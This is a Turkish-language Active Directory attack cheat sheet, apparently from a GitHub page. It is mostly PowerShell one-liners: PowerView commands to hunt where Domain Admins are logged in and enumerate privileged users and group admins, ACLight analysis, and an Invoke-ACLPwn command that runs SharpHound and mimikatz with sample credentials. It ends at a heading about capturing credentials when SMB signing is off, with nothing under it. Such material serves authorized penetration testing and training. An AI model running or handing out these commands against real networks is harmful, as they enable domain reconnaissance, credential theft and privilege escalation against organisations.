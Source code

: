 ### Domain Adminlerin Bağlı Olduğu Bilgisayarları Bulma

#### Tüm makinelerde oturumları bulma:
```powershell
Invoke-UserHunter -Verbose
```

#### Belirli bir gruptaki oturumları bulma:
```powershell
Invoke-UserHunter -GroupName "RDPUsers"
```

#### Yüksek değere sahip hedeflerde oturumları kontrol etme:
```powershell
Invoke-UserHunter -Stealth -ShowAll
```

### GPO Kullanarak Bir Bilgisayarın Adminlerini Bulma

```powershell
Find-GPOComputerAdmin -ComputerName computer_name
```

### Yüksek Yetkili Kullanıcıları Bulma

#### Linked Domain Admin hesaplarını bulma:
```powershell
Get-DomainGroupMember 'Domain Admins' | %{Get-DomainUser $_.membername -LDAPFilter '(displayname=*)'} | %{$a=$_.displayname.split(' ')[0..1] -join ' '; Get-DomainUser -LDAPFilter "(displayname=$a)" -Properties displayname,samaccountname}
```

#### Admin yetkilerine sahip normal kullanıcıları bulma:
```powershell
Get-NetGroup "admins" | Get-NetGroupMember -Recurse | ?{Get-NetUser $_.MemberName -filter '(mail=*)'}
```

### ACL Tabanlı Analiz ve Keşif

#### ACLight Kullanarak:
```powershell
Import-Module .\ACLight2.psm1
Start-ACLsAnalysis
```

#### Invoke-ACLPwn Kullanarak:
```powershell
./Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -Username 'testuser' -Domain 'xenoflux.local' -Password 'Welcome01!'
```

### SMB Signing Kapalıysa Credentials Yakalama

